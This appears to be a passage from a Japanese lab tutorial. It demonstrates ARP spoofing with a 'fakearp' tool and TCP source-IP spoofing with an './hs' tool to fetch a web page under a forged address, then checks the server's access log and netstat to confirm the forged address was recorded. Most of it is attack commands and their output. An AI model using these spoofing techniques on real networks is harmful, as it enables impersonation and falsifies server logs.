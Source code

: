 \-\-\-\-\-
[r00t@192.168.64.3]\# fakearp 192.168.64.4 \-spa 192.168.64.5 \-shw 00:fe:7f:1c:86:fa \-i eth1
\-\-\-\-\-

　次にIPスプーフィングを実行して、サーバーへの接続・トップページの取得を
試みます。
　勿論、実際に接続する事はありません。偽の接続です。

\-\-\-\-\-
[r00t@192.168.64.3]\# ./hs http://192.168.64.4/ \-s 192.168.64.5
phase 1 \- Send SYN to 192.168.64.4 (seq 0x42e7ffd5 ack 0x0)... Success
phase 2 \- Recv ACK from 192.168.64.4... Success (seq 0x779c8f1e ack 0x42e7ffd6)
phase 3 \- Send ACK to 192.168.64.4 (seq 0x42e7ffd6 ack 0x779c8f1f)... Success
phase 4 \- Send GET to 192.168.64.4 (seq 0x42e7ffd6 ack 0x779c8f1f)... Success
HTTP/1.1 200 OK
Date: Thu, 02 Oct 2003 07:40:40 GMT
Server: Apache/1.3.27 (Unix)
Last\-Modified: Wed, 01 Oct 2003 16:46:11 GMT
ETag: "7cf4e\-2d\-3f7b04d3"
Accept\-Ranges: bytes
Content\-Length: 45
Connection: close
Content\-Type: text/html

<html>
ヽ(´ー\`)ノ＜よっ！成功かい？
</html>

phase 5 \- recved FIN
phase 6 \- Final, send ACK|FIN to 192.168.64.4... Success
\-\-\-\-\-

　トップページが取得出来たので、HTTPサーバー上でログファイルを確認して、
アクセスしてきたアドレスを調べてみます。

\-\-\-\-\-
[r00t@192.168.64.4]\# cat access_log
192.168.64.5 \- \- [02/Oct/2003:16:40:40 +0900] "GET / HTTP/1.0" 200 45
\-\-\-\-\-

　192.168.64.5がリモートホストとして記録されています。次にnetstatで送信元
アドレスが偽装出来ている事を確認しましょう。

\-\-\-\-\-
[r00t@192.168.64.4]\# netstat \-an
Active Internet connections (including servers)
Proto Recv\-Q Send\-Q  Local Address          Foreign Address        State
tcp        0      0  192.168.64.4.80        192.168.64.5.38892     TIME_WAIT
tcp        0      0  *.80                   *.*                    LISTEN
tcp        0      0  *.23                   *.*                    LISTEN
tcp        0      0  *.21                   *.*                    LISTEN
udp        0      0  *.1013                 *.*
Active UNIX domain sockets
Address  Type   Recv\-Q Send\-Q    Inode     Conn     Refs  Nextref Addr
c084a000 dgram       0      0 c3e09804        0        0        0 /var/run/log
\-\-\-\-\-
